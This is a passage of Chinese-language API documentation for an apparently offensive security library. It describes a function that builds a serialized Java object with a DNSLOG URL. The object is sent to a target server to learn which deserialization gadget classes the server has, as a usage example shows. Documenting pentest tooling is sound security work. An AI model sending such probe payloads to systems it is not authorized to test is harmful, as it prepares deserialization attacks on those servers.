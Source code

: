 #### 返回值
|返回值(顺序)|返回值类型|返回值解释|
|:-----------|:---------- |:-----------|
| r1 | `*JavaObject` |   |
| r2 | `error` |   |


### GetFindGadgetByDNSJavaObject

#### 详细描述
GetFindGadgetByDNSJavaObject 通过 DNSLOG 探测 CLass Name，进而探测 Gadget。

使用预定义的FindGadgetByDNS序列化模板，然后在序列化对象中替换预设的URL占位符为提供的URL字符串。

url：要在生成的Java对象中设置的URL字符串。

返回：成功时返回构造好的Java对象及nil错误，失败时返回nil及相应错误。

Example:
```
url, token, _ = risk.NewDNSLogDomain()
javaObject, _ = yso.GetFindGadgetByDNSJavaObject(url)
gadgetBytes,_ = yso.ToBytes(javaObject)
使用构造的反序列化 Payload(gadgetBytes) 发送给目标服务器
res,err = risk.CheckDNSLogByToken(token)

	if err {
	  //dnslog查询失败
	} else {
	  if len(res) > 0{
	   // dnslog查询成功
	  }
	}

```


#### 定义

`GetFindGadgetByDNSJavaObject(url string) (*JavaObject, error)`

#### 参数
|参数名|参数类型|参数解释|
|:-----------|:---------- |:-----------|
| url | `string` |   |

#### 返回值
|返回值(顺序)|返回值类型|返回值解释|
|:-----------|:---------- |:-----------|
| r1 | `*JavaObject` |   |
| r2 | `error` |   |
